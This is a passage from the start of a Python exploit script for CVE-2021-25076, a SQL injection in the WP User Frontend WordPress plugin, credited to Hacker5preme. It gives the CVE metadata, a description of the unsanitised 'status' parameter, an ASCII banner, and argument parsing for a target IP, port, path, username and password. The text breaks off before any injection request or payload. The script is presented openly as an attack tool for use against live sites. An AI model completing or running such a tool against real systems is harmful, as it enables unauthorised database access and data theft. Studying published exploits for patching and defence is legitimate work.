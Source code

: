 # Software Link: https://downloads.wordpress.org/plugin/wp-user-frontend.3.5.25.zip
# Version: < 3.5.25
# Tested on: Ubuntu 20.04
# CVE: CVE-2021-25076
# CWE: CWE-89
# Documentation: https://github.com/Hacker5preme/Exploits/blob/main/Wordpress/CVE-2021-25076/README.md

'''
Description:
The WP User Frontend WordPress plugin before 3.5.26 does not validate and escape the status parameter
before using it in a SQL statement in the Subscribers dashboard, leading to an SQL injection.
Due to the lack of sanitisation and escaping, this could also lead to Reflected Cross-Site Scripting
'''

banner = '''

 _|_|_|  _|      _|  _|_|_|_|              _|_|      _|      _|_|      _|                _|_|    _|_|_|_|    _|    _|_|_|_|_|    _|_|_| 
_|        _|      _|  _|                  _|    _|  _|  _|  _|    _|  _|_|              _|    _|  _|        _|  _|          _|  _|       
_|        _|      _|  _|_|_|  _|_|_|_|_|      _|    _|  _|      _|      _|  _|_|_|_|_|      _|    _|_|_|    _|  _|        _|    _|_|_|   
_|          _|  _|    _|                    _|      _|  _|    _|        _|                _|            _|  _|  _|      _|      _|    _| 
  _|_|_|      _|      _|_|_|_|            _|_|_|_|    _|    _|_|_|_|    _|              _|_|_|_|  _|_|_|      _|      _|          _|_|   
                                                                                                                                          
                                        [+] WP User Frontend - SQL Injection
                                        [@] Developed by Ron Jost (Hacker5preme)
'''
print(banner)

import argparse
from datetime import datetime
import os
import requests
import json

# User-Input:
my_parser = argparse.ArgumentParser(description= 'WP User Frontend - SQL-Injection (Authenticated)')
my_parser.add_argument('-T', '--IP', type=str)
my_parser.add_argument('-P', '--PORT', type=str)
my_parser.add_argument('-U', '--PATH', type=str)
my_parser.add_argument('-u', '--USERNAME', type=str)
my_parser.add_argument('-p', '--PASSWORD', type=str)
args = my_parser.parse_args()
target_ip = args.IP
target_port = args.PORT
wp_path = args.PATH
username = args.USERNAME